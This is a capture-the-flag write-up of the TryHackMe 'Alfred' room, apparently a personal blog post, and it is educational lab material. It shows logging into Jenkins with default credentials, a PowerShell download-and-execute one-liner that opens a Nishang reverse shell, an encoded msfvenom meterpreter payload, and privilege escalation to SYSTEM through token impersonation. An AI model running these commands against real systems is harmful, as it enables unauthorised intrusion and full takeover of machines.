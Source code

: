 ```yaml
---
title: Alfred-writeup-THM
date: 2023-12-26 
categories: [room, easy]
tags: [windows, privesc, jenkins]     # TAG names should always be lowercase
image: https://raw.githubusercontent.com/Blueaulo/Alfred-writeup-THM/main/03c7fd6c-be68-4659-9c82-37743811ebdb_Export-f74cfa2b-d9f8-4ed2-b2f2-f5d8cdd8251d/Alfred%20ebebc7814aa2443aac5154421745f1d8/Untitled.png
---
```

## My writeup of the TryHackMe room "<a href="https://tryhackme.com/room/alfred">Alfred</a>"

### Initial Access

Exploiting Jenkins,

Jenkins is a tool used to create continuous integration/continuous development pipelines that allow developers to automatically deploy their code once they made changes to it.

First of all I am going to scan the machine, for this I only know that the machine does not respond to ping, and I only need TCP ports,

```bash
nmap -sT -Pn 10.10.207.2 

Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-12-26 10:41 EST
Nmap scan report for 10.10.207.2
Host is up (0.058s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT     STATE SERVICE
80/tcp   open  http
3389/tcp open  ms-wbt-server
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 5.65 seconds
```

This is the output.

- Port 80 is hosting a site, which tells me important informations:
    
    ![Untitled](https://raw.githubusercontent.com/Blueaulo/Alfred-writeup-THM/main/03c7fd6c-be68-4659-9c82-37743811ebdb_Export-f74cfa2b-d9f8-4ed2-b2f2-f5d8cdd8251d/Alfred%20ebebc7814aa2443aac5154421745f1d8/Untitled.png)
    

I got a possible username and password: Bruce Wayne

And an email: alfred@wayneenterprises.com

But that’s it for now.

Port 8080 is where Jenkins is hosted.

Upon entering the page, there is a login portal, after trying “Bruce Wayne” and several other password, I am reminded that this is in the description of the room:

“common misconfiguration on a widely used automation server”

So i tried admin:admin, which worked.

Now I got control over Jenkins!

The first thing to do is searching for some type of tool that I can use to get a reverse shell:

https://github.com/samratashok/nishang

First I tried with the script console.

But it didn’t work because it can’t download the script like that, so I found a configure page under the project.

![Untitled](https://raw.githubusercontent.com/Blueaulo/Alfred-writeup-THM/main/03c7fd6c-be68-4659-9c82-37743811ebdb_Export-f74cfa2b-d9f8-4ed2-b2f2-f5d8cdd8251d/Alfred%20ebebc7814aa2443aac5154421745f1d8/Untitled%201.png)

Because it has RDP open we can assume that the machine is running Windows.

I am going to use this script: “https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1”

Which I downloaded in my machine, after that I started a python server: (this will be started in the same directory as the script, that’s because jenkins will download the script thanks to the python server)

```bash
python3 -m http.server 8000
```

Then I start a listener: 

```bash
nc -lvnp 4444
```

And then used this script in the script console:

```bash
*powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-python-server-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.18.20.116 -Port 4444*
```

After that I build the config we got a shell!

```bash
nc -lvnp 4444

listening on [any] 4444 ...
connect to [10.18.20.116] from (UNKNOWN) [10.10.207.2] 49236
Windows PowerShell running as user bruce on ALFRED
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Program Files (x86)\Jenkins\workspace\project>
```

We can see that we are the user alfred\bruce

```bash
PS C:\Program Files (x86)\Jenkins\workspace\project>whoami
alfred\bruce
```

Now I need the user flag, which I found in the user Desktop:

PS C:\Users\bruce\Desktop> ls

```bash
PS C:\Users\bruce\Desktop> ls

Directory: C:\\Users\\bruce\\Desktop

Mode                LastWriteTime     Length Name

a--- 10/25/2019 11:22 PM 32 user.txt
```

Now, I am going to switch this scuffed revshell in an imrpoved version, we can do this using the meterpreter shell.

## Upgrading the shell

Leave your previous connection **OPEN**.

We create our payload:

`msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.18.20.116 LPORT=4555 -f exe -o revshellps1.exe`

After creating this payload, download it to the machine using the same method in the previous step:

`powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.18.20.116:8000/revshellps1.exe','revshellps1.exe')"`

Now that we have done that, we need to use Metasploit:

```bash
**use exploit/multi/handler**
[*] Using configured payload generic/shell_reverse_tcp

msf6 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp

msf6 exploit(multi/handler) > set LHOST Your_Machine_IP
LHOST => 10.18.20.116

msf6 exploit(multi/handler) > set LPORT Your_Port(Same as the one you used for creating the payload)
LPORT => 4555
msf6 exploit(multi/handler) > run
```

Once we run, we nee to go in our previous connection(The one we created with nc) and start the process:

```bash
Start-Process "shell-name.exe”
```

You will find the shell under: `C:\Program Files (x86)\Jenkins\workspace\project`

Now that we have a stable shell, we can try to gain major privileges!

## Privilege Escalation

First thing we do is:

`whoami /priv`

With this we can see all the Enabled privileges

(SeDebugPrivilege, SeImpersonatePrivilege) Those are the one that we find interessing.

Then we check for the available tokens:

`impersonate_token`

And we can see the BUILTIN\Administrators token available

So we try to impersonate the token:

```bash
meterpreter > impersonate_token "BUILTIN\Administrators"
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
Call rev2self if primary process token is SYSTEM
[+] Delegation token available
[+] Successfully impersonated user **NT AUTHORITY\SYSTEM**
```

Even though you have a higher privileged token, you may not have the permissions of a privileged user.

To go around that we can migrate to a process with the correct privileges.

First we use `ps` to view the processes, then we grab the PID of services.exe, which we pick because is it normally a ssafe option.

and we migrate to that PID:

```bash
migrate PID-OF-PROCESS
```

Now we should have full SYSTEM privileges!!